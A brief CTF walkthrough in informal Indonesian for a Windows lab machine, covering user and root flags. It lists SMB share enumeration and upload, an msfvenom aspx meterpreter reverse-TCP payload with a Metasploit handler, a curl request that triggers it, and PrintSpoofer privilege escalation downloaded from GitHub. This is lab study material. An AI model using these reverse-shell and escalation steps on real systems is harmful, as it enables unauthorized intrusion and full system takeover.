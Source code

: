 # user.txt :
> scanning, fuzz, kayak biasanya cek aja dulu, port banyak yg kebuka
> semua port susah, kecuali http sama ssmb di 445 cek aja di smbclient
> smbclient -L //ip -> next yg gada $ dulu -> smbclient //ip/dir -> get passwd disitu ada passwd
> next cek dulu disitu writeable ato ga, coba tes upload file disitu -> put namafilemu.txt
> bisa tuh next bikin shell aja di meterpreter msf
> msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=[ip] lport=[port] -f aspx -o nama.aspx
> msfconsole -> use exploit/multi/handler -> set payloadnya sama kek di -p tadi abis x64/, set ip port
> dah upload dulu aja aspx nya sebelum di run msfconsole nya
> next dah run msfnya, curl ke http yang port 4xxx itu http nya, ke workdir upload aspx tadi
> dah curl aja kesitu portnya itu kan, nanti cek di msfconsole nya masuk
> dah cd2 aja ke C:\\Users bob disitu ada flag cat aja


# root.txt 
> getprivs di meterpreter nya
> terus cek2 aja di gpt coba ini aja dah https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
> next wget aja kesitu nanti upload pake smb lagi dia ada di dir ini c:/inetpub/wwwroot/nt4wrksv
> nah nanti cd kesana aja jadi shell jalanin aja pe nya gini
> PrintSpoofer64.exe -i -c powershell.exe
> dah klaim di users/administrator

